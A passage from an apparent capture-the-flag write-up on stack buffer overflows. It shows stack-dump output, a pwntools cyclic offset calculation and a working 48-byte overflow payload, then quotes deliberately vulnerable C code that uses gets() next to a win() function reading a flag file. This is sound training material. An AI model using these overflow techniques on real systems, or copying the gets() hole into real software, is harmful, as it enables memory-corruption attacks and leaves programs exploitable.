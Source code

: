 ```
0xffda5f40 | 60 5f da ff 00 00 00 00 |

Input some text: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xffda5ef8 | 61 61 61 61 62 61 61 61 |
0xffda5f00 | 63 61 61 61 64 61 61 61 |
0xffda5f08 | 65 61 61 61 66 61 61 61 |
0xffda5f10 | 67 61 61 61 68 61 61 61 |
0xffda5f18 | 69 61 61 61 6a 61 61 61 |
0xffda5f20 | 6b 61 61 61 6c 61 61 61 |
0xffda5f28 | 6d 61 61 61 6e 61 61 61 |
0xffda5f30 | 6f 61 61 61 70 61 61 61 |
0xffda5f38 | 71 61 61 61 72 61 61 61 |
0xffda5f40 | 73 61 61 61 74 61 61 61 |

Uhmm... maybe you overflowed too much. Try deleting a few characters.
```
The addr of secret is `0xffda5f28`, the 4 bytes after our first try of overflow is `0x6161616d`

```python
>>> p32(0x6161616d)
b'maaa'
>>> cyclic_find("maaa")
48
```

So exp 

```python
print("A"*48 + "flag")
```

### RIP my bof

*easy*

```c
void win() {
  system("/bin/cat /flag.txt");
}

void vuln() {
  char padding[16];
  char buff[32];

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Mark the padding with 0xff.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff);

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff);
}
```
